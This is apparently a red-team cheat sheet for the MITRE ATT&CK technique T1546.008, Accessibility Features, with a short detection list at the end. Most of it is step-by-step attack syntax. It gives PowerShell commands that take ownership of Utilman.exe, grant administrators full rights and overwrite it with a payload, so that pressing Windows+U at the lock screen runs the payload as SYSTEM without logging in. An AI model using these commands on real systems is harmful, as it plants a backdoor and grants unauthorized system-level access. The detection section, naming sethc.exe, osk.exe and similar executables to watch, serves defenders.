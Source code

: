 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## Exploit syntax:

1. Get a beacon with administrative privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the \<payload path> to the payload location on the victim box
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges. 

> **NOTE:** This will not give you an administrator prompt

---

## Detection Technique:

* Observe common Windows Accessibility Features executables
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe


